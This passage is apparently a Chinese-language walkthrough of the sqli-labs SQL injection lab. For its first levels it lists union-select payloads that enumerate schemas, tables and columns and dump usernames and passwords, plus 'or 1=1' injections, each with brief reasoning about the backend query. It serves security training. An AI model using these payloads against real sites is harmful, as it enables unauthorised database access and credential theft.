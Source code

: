 ```sql
?id=0'union select 1,2,group_concat(schema_name) from information_schema.schemata%23
```

爆表名

```sql
?id=0'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23
```

爆列名

```sql
?id=0'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'%23
```

爆数据

```sql
?id=0'union select 1,2,group_concat(username,password) from users%23
```

## Less-2

传入`?id=1'`、`?id=1"`时页面报错，猜测后台sql语句类似

```sql
$sql = "select * from users where id = $id";
```

后台需要整型参数id，传入字符型参数id时，sql语句多出了引号导致报错，这题就不再需要引号的闭合，直接拼接sql语句

```sql
?id=0 or 1=1%23
```

## Less-3

传入参数`?id=1'`时，页面报错，传入参数`?id=1`、`?id=1"`时页面没有报错，猜测后台sql语句类似

```sql
$sql = "select * from users where id = '$id'";
```

传入参数`?id=1'`时，sql语句变成了

```sql
select * from users where id = '1''
```

可以传`?id=1'`，把原有的单引号以及后面内容注释掉，保证sql语句正确。后面正常拼接联合查询sql语句即可

```sql
?id=0' or 1=1%23
```

## Less-4
